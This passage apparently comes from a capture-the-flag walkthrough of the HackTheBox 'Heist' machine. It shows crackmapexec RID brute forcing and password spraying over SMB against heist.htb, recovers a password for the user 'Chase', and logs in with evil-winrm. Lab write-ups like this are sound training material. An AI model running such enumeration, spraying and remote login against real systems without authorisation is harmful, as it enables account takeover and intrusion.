 We get an `error`.   

We can try `RID bruteforcing` to get usernames.   

```bash
poetry run  crackmapexec  smb heist.htb -u  "hazard" -p 'stealth1agent' --rid
```

We get some `usernames`.  

<br/> 
<img src="/img/Heist_screenshots/Pasted image 20241210181439.png" alt="1" style="width:700px; height:auto;">
<br/>

We can save them into a file and try `password` `spraying`.  

<br/> 
<img src="/img/Heist_screenshots/Pasted image 20241210181721.png" alt="1" style="width:700px; height:auto;">
<br/>

We perform a `bruteforcing` on the `usernames` and `passwords` we got.   

```bash
poetry run  crackmapexec  smb heist.htb -u  ~/HTB/Heist/usernames_cleaned  -p ~/HTB/Heist/passwords ----continue-on-success
```

A new valid combination is found.   `Chase:Q4)sJu\Y8qz*A3?d` 

We can try to `login` now with this account.   

```bash
evil-winrm -i $ip -u "Chase" -p "Q4)sJu\Y8qz*A3?d"
```
